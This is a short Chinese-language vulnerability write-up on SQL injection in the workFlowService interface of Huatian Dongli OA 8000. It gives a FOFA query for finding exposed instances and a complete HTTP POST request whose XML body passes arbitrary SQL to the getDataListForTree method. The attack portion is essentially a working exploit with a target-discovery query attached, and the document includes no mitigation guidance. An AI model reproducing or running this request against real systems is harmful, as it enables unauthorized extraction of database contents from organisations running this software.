 # 华天动力oa SQL注入

## 1.漏洞描述

华天动力OA 8000版 workFlowService接口存在SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息

## 2.搜索语法

```plain
fofa：app="华天动力-OA8000"
```

## 3.漏洞复现

```plain
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0

<buffalo-call> 
<method>getDataListForTree</method> 
<string>select user()</string> 
</buffalo-call>
```

响应包显示如下

![image-20240613202648514](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240613202648514.png)